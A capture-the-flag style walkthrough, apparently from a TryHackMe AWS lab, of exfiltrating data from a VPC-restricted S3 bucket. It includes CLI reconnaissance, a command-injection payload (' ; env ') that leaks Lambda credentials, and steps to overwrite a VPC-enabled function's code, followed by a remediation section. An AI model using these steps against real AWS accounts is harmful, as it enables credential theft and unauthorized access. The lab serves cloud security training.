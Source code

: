 # Lambda - Data Exfiltration

## Mission brief
The Uruks of Mordor have hired you to get access to a CryptoWallet in the AWS Account belonging to a rival gang of Uruk-hai. The gang has obtained some AWS read-only AWS credentials to the target account through means you don't want to ask about. Unfortunately, the CryptoWallet is in an S3 Bucket protected by a VPC Endpoint policy. You cannot access it from anywhere except the VPC.
For this challenge, the read-only credentials are the same ones provided by the TryHackMe environment, so continue to use them. You will want to leverage your AttackBox for this exercise. 

## Reconnaissance of the Buckets in the Environment
- List the bucket
```bash
aws s3 ls
aws s3 ls s3://$BUCKET_NAME
```
- Check the bucket policy
```bash
aws s3api get-bucket-policy --bucket $BUCKET_NAME --query Policy --output text | jq .
```
![image](https://github.com/user-attachments/assets/9a7ce574-404c-45e4-923a-7abb78505ba5)
- From the outpout, we see that there is an explicit deny on all object operations from everywhere except a VPC.

- Explore the network topology
```bash
aws ec2 describe-vpc-endpoints
aws ec2 describe-vpcs
```

- This allows us to identify which vpc is attached to the bucket we target.

## Reconnaissance of the Lambda in the Environment
- List the Lambda functions
```bash
aws lambda list-functions
```
- From the Attacking Machine, run the following script to get the policies attached to the lambda functions
```bash
FUNCTIONS="list-images download-images"

for f in $FUNCTIONS ; do
    ROLE=`aws lambda get-function --function-name $f --query Configuration.Role --output text | awk -F\/ '{print $NF}'`
    echo "$f has $ROLE with these managed policies:"
    aws iam list-attached-role-policies --role-name $ROLE
    for p in `aws iam list-role-policies  --role-name $ROLE --query PolicyNames --output text` ; do
        echo "$ROLE for $f has inline policy $p:"
        aws iam get-role-policy --role-name $ROLE --policy-name $p
    done
done
```
The function list-images has the AWSLambda_FullAccess managed policy. This means that it can change any other function! The download-images function is already in the VPC, and it has the AmazonS3FullAccess managed policy, which would allow that function to view all of S3!

## Download and analyze the Lambda function
- We use `list-images` and `donwload-images` functions with `aws lambda get-function` to download the functions
```bash
FUNCTIONS="list-images download-images"
for f in $FUNCTIONS ; do
    URL=`aws lambda get-function --function-name $f --query Code.Location --output text`
    curl -s $URL -o $f.zip
    mkdir $f
    unzip $f.zip -d $f
done
# The above commands will loop the two functions and call get-function extracting the pre-signed URL for the function (Code.Location). It will then run curl on that pre-signed URL to download the code zip file, and extracts it  into a folder named after the function with the unzip command.
```

#### Attacking list-images function
```python
def lambda_handler(event, context):

  command = f"aws s3 ls s3://{os.environ['IMAGE_BUCKET']}/{event['prefix']}"
  files = os.popen(command).read()
  return(files)
```
- When passed th following JSON, this function will return a list of objects in the IMAGE_BUCKET, then run whatever else we add to the end of the command.

### Attacking download-images function
- Modify the `index.py` from the download-images. Change
```python
Bcuket=os.environ['IMAGE_BUCKET']
```
to

```python
Bucket='mauhr-coins-xxxx'
```
- Zip the modified `index.py`
```bash
zip -r ../compromised.zip index.py
```

## Exfiltrate Credentials
- Create the `payload.json`
```json
{
  "prefix":" ; env "
}
# This will tell the function to run the env command 
```

- Invoke the function
```bash
aws lambda invoke --function-name list-images --payload fileb://payload.json output.json
cat output.json | jq -r | grep AWS
```

- Open a new Terminal window and authenticate with the discovered credentials
```bash
export AWS_SESSION_TOKEN=$VALUE1
export AWS_SECRET_ACCESS_KEY=$VALUE2
export AWS_ACCESS_KEY_ID=$VALUE3
```

- Validate we're using the Lmabda function's credentials:
```bash
aws sts get-caller-identity
```

## Compormise VPC-enabled Function
- Now that we're using the Lambda function credentials, we can update the `download-images` function with the previously created zip.
```bash
aws lambda update-function-code --region us-east-1 --function-name download-images --zip-file fileb://compromised.zip
```
- Create a new file `payload2.json`
```bash
{"object_key": "password.txt"}
```
- Invoke the compromised function to read the target file:
```bash
aws lambda invoke --function-name download-images --payload fileb://payload2.json output2.json
```

## What did the Orcs of Mordor do wrong?
**1. Overly permissive roles**
- `download-images` function didn't need `AmazonS3FullAccess`. If the function is only configured to access the right bucket, attackers wouldn't have got access to tthe `mauhur-cois-xxx` bucket.
- `list-images` function didn't need `AWSLAmbda_FullAccess`

**2. Unsanitized inputs**
- `list-images` function didn't validate `event['prefix']` before passing it to the shell.

**3. Lambda in a VPC**
- There was no good reason to place the `download-images` function in the `Mauhur's VPC - Do Not Use`. Granting them unneeded access to the private corporate network allows an attacker to latterally move from the cloud to the network.

**4. Leaking Read-Only credentials**
- Not sure if the user should be granted Read-Only access but this permission should be granted with care as it may lead to disclosing sensitive information.

**5. Account Separation**
- The Orcs used one account for everything. AWS recommends creating new AWS accounts for each differnet application and business function.
